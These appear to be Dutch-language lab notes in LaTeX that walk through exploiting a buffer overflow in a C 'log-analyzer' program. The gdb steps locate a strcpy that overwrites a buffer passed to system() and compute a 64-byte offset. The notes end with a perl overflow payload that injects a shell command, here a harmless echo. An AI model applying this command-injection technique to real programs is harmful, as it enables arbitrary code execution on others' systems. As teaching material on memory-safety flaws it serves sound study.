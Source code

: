 \begin{enumerate}
  \item gcc-3.3 -g -o log-analyzer log-analyzer.c
  \item gdb -q log-analyzer
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless servernaam\textgreater
  		\item command
  		\item name
  		\item strcpy(command ... ) op lijn 20
  			\begin{enumerate}
  			\item command wordt uitgevoerd door system(command) (lijn 27)
  			\item command overschrijven door strcpy(name, servernaam); op lijn 25
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 26 
  	\begin{enumerate}
  	\item Adres van command bekijken
  	\item Adres van name bekijken
  	\end{enumerate}
  \item (gdb) run ``blah''
  \item (gdb) x/x command
  	\begin{enumerate}
  	\item 0xbffff6c0
  	\end{enumerate}
  \item (gdb) x/x name
  	\begin{enumerate}
  	\item 0xbffff680
  	\end{enumerate}
  \item (gdb) print 0xbffff6c0 - 0xbffff680
  	\begin{enumerate}
  	\item \$1 = 64
  	\end{enumerate}
  \item (gdb) run ``\$(perl -e `print ``A''x64 . ``echo \textbackslash{}``\textbackslash{}nEPIC TEST\textbackslash{}n\textbackslash{}''\textbackslash{}n'' ')''

\end{enumerate}
